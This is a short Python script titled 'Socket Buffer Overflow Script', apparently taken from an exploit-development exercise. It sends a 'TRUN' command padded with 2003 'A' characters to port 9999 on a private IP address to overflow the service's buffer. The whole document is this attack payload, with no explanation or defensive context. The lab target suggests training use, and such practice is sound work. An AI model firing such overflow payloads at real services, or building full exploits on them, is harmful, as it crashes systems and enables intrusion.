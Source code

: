 ### Socket Buffer Overflow Script
```
#!/usr/bin/env python
import socket

buffer = "TRUN /.:/"
buffer += "A" * 2003
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.50.38.121", 9999))
print(s.recv(1024))
s.send(buffer)
print s.recv(1024)
s.close()
```
